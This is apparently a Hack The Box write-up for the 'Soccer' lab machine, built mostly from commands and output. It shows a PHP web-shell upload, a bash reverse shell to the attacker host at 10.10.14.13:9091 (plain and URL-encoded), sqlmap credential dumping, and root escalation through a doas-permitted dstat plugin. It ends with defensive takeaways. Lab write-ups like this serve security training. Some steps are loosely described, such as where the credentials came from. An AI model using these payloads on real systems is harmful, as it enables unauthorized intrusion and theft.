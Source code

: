 # Target: HTB – Soccer

## Engagement Overview
**Target:** Soccer (HTB)  
**Box IP:** 10.10.11.194  
**Date:** 2025-09-06  
**Attacker Host:** 10.10.14.13  

---

### Objectives
- Obtain initial foothold on the web server.
- Escalate to a user shell and capture `user.txt`.
- Escalate to root and capture `root.txt`.

---

## Service Enumeration

### Nmap
```bash
nmap -sC -sV -oA soccer.init 10.10.11.194
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
9091/tcp open  http
```
- Port 80 redirects to `http://soccer.htb/`
- Gobuster found `/tiny` (Tiny File Manager).

### Directory Brute Force
```bash
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```
```
/tiny (301)
```

---

## Initial Access

### Web Shell Upload via Tiny File Manager

shell.php:

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
# Uploaded shell.php in /tiny
curl -X POST -F "file=@shell.php" http://soccer.htb/tiny/uploads/
```

Burp suite repeater requst change to post:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9091 0>&1'

# encode with ^u

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13%3a9091+0>%261'
```

Triggered shell:

```bash
nc -lvnp 9091
# Then accessed http://soccer.htb/tiny/uploads/shell.php
```

Upgraded TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg


export TERM=xterm
```

### Local Service Recon
```bash
ss -ltnp
```
```
127.0.0.1:3306  (MySQL)
127.0.0.1:3000  (Node/Express)
0.0.0.0:80      (nginx)
```

### Nginx vhosts
```
soccer.htb  → nginx root
soc-player.soccer.htb  → proxy to localhost:3000
```

---

## SQL Injection → Credential Extraction

### Identifying Injection
During browsing of `soc-player.soccer.htb`, ticket request form was tested. Using **BurpSuite**, intercepted requests showed injectable parameters.

### Verifying Injection
```bash
sqlmap -r login.req --batch --dbs
```
```
available databases [2]:
[*] information_schema
[*] soccer_db
```

### Extracting Tables & Data
```bash
sqlmap -r login.req -D soccer_db --tables
sqlmap -r login.req -D soccer_db -T users --dump
```
```
+----+----------+-------------------+
| id | user     | password          |
+----+----------+-------------------+
| 1  | player   | PlayerPass123!    |
+----+----------+-------------------+
```

This provided valid credentials for SSH.

---

## User Access

### SSH as Player
Recovered `player` credentials from app configs and logged in:
```bash
ssh player@10.10.11.194
```

Captured user flag:
```bash
cat user.txt
a92099f7e4ca0b2f7d73233c1ffe65bf
```

---

## Privilege Escalation

### Misconfigured `doas` Rule
```bash
cat /usr/local/etc/doas.conf
```
```
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat Plugin Path
```bash
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

Got root shell:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

Captured root flag:
```bash
cat /root/root.txt
46001e33362eb61261de64adff98cafc
```

---

## House Cleaning
- Removed `shell.php` from `/var/www/html/tiny/uploads/`
- Deleted malicious plugin `/usr/local/share/dstat/dstat_exploit.py`

---

## Tools Utilized
- `nmap`, `gobuster`, `curl`
- `netcat`, `python3` pty for TTY
- `doas`, `dstat` (abused for escalation)

---

## Key Takeaways
- **Tiny File Manager** upload function allowed arbitrary PHP upload → foothold.
- **doas misconfiguration** enabled root execution of `dstat`; unsafe due to plugin loading.
- Defense should restrict access to admin panels, disable PHP execution in uploads, and audit privilege escalation configs.
